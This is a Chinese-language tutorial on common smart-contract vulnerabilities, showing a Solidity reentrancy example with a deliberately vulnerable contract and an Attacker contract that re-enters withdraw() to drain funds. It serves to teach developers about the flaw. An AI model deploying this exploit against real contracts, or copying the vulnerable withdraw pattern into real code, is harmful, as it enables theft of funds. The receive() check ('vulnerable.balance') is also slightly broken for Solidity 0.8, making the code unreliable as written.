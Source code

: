 ## 常见的智能合约漏洞和攻击

### 概述

智能合约在区块链上执行，但由于其不可更改性和自动执行的特性，合约漏洞可能导致严重的安全问题。了解常见的智能合约漏洞和攻击，有助于开发者更好地保护他们的应用程序。

### 1. 重入攻击

重入攻击是一种恶意合约通过在同一交易中多次调用另一个合约，来重复执行代码的攻击方式。这可能导致合约的状态异常改变，造成资金损失。

**示例代码：**

```solidity
pragma solidity ^0.8.0;

contract Vulnerable {
    mapping(address => uint256) public balances;

    function deposit() public payable {
        balances[msg.sender] += msg.value;
    }

    function withdraw() public {
        uint256 amount = balances[msg.sender];
        (bool success, ) = msg.sender.call{value: amount}("");
        if (success) {
            balances[msg.sender] = 0;
        }
    }
}

contract Attacker {
    Vulnerable public vulnerable;

    constructor(Vulnerable _vulnerable) {
        vulnerable = Vulnerable(_vulnerable);
    }

    function attack() public payable {
        vulnerable.deposit{value: msg.value}();
        vulnerable.withdraw();
    }

    function getBalance() public view returns (uint256) {
        return address(this).balance;
    }

    function withdraw() public {
        vulnerable.withdraw();
    }

    receive() external payable {
        if (vulnerable.balance >= msg.value) {
            vulnerable.withdraw();
        }
    }
}
```
